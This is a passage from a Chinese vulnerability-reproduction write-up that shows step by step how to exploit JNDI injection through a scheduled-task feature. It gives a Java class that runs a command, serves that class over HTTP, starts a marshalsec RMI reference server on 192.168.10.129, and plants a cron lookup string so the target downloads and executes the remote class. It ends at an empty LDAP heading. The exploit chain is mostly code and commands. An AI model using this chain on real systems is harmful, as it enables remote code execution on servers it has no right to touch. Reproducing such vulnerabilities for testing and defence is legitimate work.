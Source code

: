 #### 漏洞复现(V-4.2)  
  
先编译要执行的恶意类****  
  
**javac Calc.java**  
```
public class Calc{
    public Calc(){
        try{
            Runtime.getRuntime().exec("calc");
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        public static void main(String[] argv){
            Calc c = new Calc();
        }
}
```  
  
将Calc.class文件通过python服务暴露  
**python -m http.server 6000**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGibOJUtib6X9iaIpvOCWAMvlmHlSh1aWqZicrIveUspK6GSyuRoqFJAiaLyA/640?wx_fmt=png&from=appmsg "")  
  
使用  
marshalsec  
工具启动一个  
RMI服务  
,链接类指向我们公开的端口  
下载marshalsec  
，需要自行编译，或者下载别人已经编译好的  
jar包  
##### RMI注入  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://192.168.10.129:6000/#Calc“ 8888
```  
  
添加一个定时任务通过lookup函数加载远程类  
  
目标字符串：  
****  
```
org.springframework.jndi.JndiLocatorDelegate.lookup(‘rmi://192.168.10.129:8888/Calc’)
```  
  
cron表达式：0/10 * * * * ?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGMaHwiarw8gqe6vqH2V4zbh5bRNoRSWdUTTkPGKtV4iblMYBpaJjLHxCA/640?wx_fmt=png&from=appmsg "")  
  
点击执行任务，弹出计算器，测试成功。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzG6ibComl6GiajiarsdZPjFiaUbpXEibo6IOWtvs1PhPm57rM4bic4dvWJmXrA/640?wx_fmt=png&from=appmsg "")  
##### LDAP注入  
  
